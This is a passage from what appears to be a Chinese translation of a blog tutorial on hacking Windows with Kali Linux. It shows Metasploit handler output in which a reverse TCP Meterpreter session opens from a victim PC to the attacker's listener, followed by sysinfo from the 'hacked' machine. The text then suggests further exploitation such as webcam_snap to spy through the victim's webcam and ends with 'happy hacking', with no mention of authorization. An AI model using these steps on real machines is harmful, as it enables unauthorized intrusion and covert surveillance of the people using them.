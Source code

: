 现在你需要在 Windows 上运行 `program.exe`，一旦它在目标机器上执行，你就可以建立一个 meterpreter 会话。输入 `sysinfo` 就可以得到这台被黑掉的 Windows 机器的详情。



```
msf exploit(handler) > exploit

[*] Started reverse TCP handler on 192.168.189.128:4444
[*] Starting the payload handler...
[*] Sending stage (957999 bytes) to 192.168.189.1
[*] Meterpreter session 1 opened (192.168.189.128:4444 -> 192.168.189.1:53091) at 2017-01-26 00:51:31 +0000

meterpreter > sysinfo
Computer        : MANN-PC
OS              : Windows 7 (Build 7601, Service Pack 1).
Architecture    : x64 (Current Process is WOW64)
System Language : en_IN
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/win32

```

一旦你得到了这些详细信息，就可以做更多的漏洞利用，或者通过 `help` 命令获取更多信息，以便列出你可以黑掉该系统的所有选项，比如 `webcam_snap` 命令获取网络摄像头，同样你还可以使用其他更多的可用选项。祝你入侵愉快！！！！ ←\_←




---


作者简介：


嗨，我是 Manmohan Mirkar。很高兴认识你。我接触 Linux 是在十年前，我做梦也没想到我有现在这样的收获。我的愿望就是让你学到 Linux 的知识，谢谢你的阅读。


译者简介：


[GHLandy](http://GHLandy.com) —— 划不完粉腮柳眉泣别离。




---


via: <http://www.linuxroutes.com/quick-guide-how-to-hack-windows-with-kali-linux/>


作者：[Manmohan Mirkar](http://www.linuxroutes.com/quick-guide-how-to-hack-windows-with-kali-linux/) 译者：[GHLandy](https://github.com/GHLandy) 校对：[wxy](https://github.com/wxy)


本文由 [LCTT](https://github.com/LCTT/TranslateProject) 原创编译，[Linux中国](https://linux.cn/) 荣誉推出